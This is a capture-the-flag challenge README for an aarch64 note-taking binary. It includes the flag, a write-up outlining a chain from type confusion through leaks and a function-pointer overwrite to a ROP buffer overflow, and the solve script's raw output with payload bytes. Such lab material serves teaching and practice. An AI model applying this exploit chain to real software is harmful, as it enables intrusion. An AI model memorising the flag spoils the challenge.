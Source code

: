 ```
To run:
qemu-aarch64 -L /usr/arm-linux-gnueabi ./note_keeper_arm
```

### Description
I wrote a note taker app for my favorite architecture. Can you pwn it? (aarch64 pwn)

### Difficulty
9/10 (Difficult)

### Flag
pctf{arm_expl0itation_is_pr3tty_co0l}

### Hints
qemu-aarch64 can run the problem

### Author
Christopher Roberts (caffix)

### Tester
me?

### Writeup
```bash
QEMU_LD_PREFIX=/usr/aarch64-linux-gnu/ python solve.py
```
solve.py in repo
Chain together four separate vulnerabilities together.
Type confusion -> into PIE/binary stack leak -> function ptr overwrite
-> into stack info leak -> into buffer overflow w/ ropping
No libc provided. The payload is a open/read/write on flag.txt

### Note:
The challenge is in aarch64 and I compile it inside the docker container.
Make sure to provide the note_keeper_arm binary from INSIDE the container.
docker cp <docker id>:/srv/app/note_keeper_arm .

Also I'm pretty sure ASLR doesn't work for qemu-user, so you might not need
the binary offset leak for PIE lol. It's always been at 0x4000000000

### Given to user
- note_keeper_arm (FROM THE DOCKER CONTAINER)

### Running the solve output
If offsets change from docker the solve.py will need to be modified
```bash
(angr_pwn2) ➜  arm1 QEMU_LD_PREFIX=/usr/aarch64-linux-gnu/ python solve.py
[*] '/home/chris/ctf/patriotctf2023/arm1/docker_copy'
    Arch:     aarch64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to localhost on port 5001: Done
b'Note taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\nNote ID:\nNote length: [MAX 99 CHARACTERS]\nNote length too long try again\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\nInvalid choice\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\n'
got exit function address 0x4000000b8c
Program is based at 0x4000000000
b':\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\nInvalid choice\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\n'
b'Note ID:\n'
Sending buffer
b'Old note ID, using old length\nMessage:\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\nInvalid choice\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\n'
Got stack cookie : 0x87f2243c9a8c8f00
b'Note ID:\n'
Sending buffer
b'Old note ID, using old length\nMessage:\n'
b'Note taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\nInvalid choice\nNote taker menu:\n[1] Create note\n[2] View note\n[3] Delete note\n[4] Quit\n'
[*] Switching to interactive mode
Beep Boop. TeXt T0 $P3ach 1s d0wn, s0 y0u'1l h4v3 t0 m@nage w1th a tr@nscript:
flag.txt\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x98\x0c\x00\x00\x00\x8f\x8c\x9a<$\xf2\x87CCCCCCCC\x9c\x0b\x00\x00\x00DDDDDDDEDDDDDDD\x1c\x00\x00\x00\x0b\x00\x00\x00\x00\x00\x00\x00\x0e\x00\x00\x00DDDDDDD\x9c\x0b\x00\x00\x00EEEEEEEFEEEEEEE\x03\x00\x00\x00\xb0\x0b\x00\x00\x00 \x00\x00\x00\x0b\x00\x00\x00\x00\x00\x00\x00\x0e\x00\x00\x00EEEEEEE\x9c\x0b\x00\x00\x00EEEEEEE\x00\x8c\x9a<$\xf2\x87\x00\x00\x00\xb0\x0b\x00\x00\x00 \x00\x00\x00\x0b\x00\x00\x00\x00\x00\x00\x00\x0f\x00\x00\x00EEEEEEE\xa0    \x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Note taker menu:
[1] Create note
[2] View note
[3] Delete note
[4] Quit
Invalid choice
Note taker menu:
[1] Create note
[2] View note
[3] Delete note
[4] Quit
Deleting note
pctf{arm_expl0itation_is_pr3tty_co0l}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00eleting note
[*] Got EOF while reading in interactive
$  
```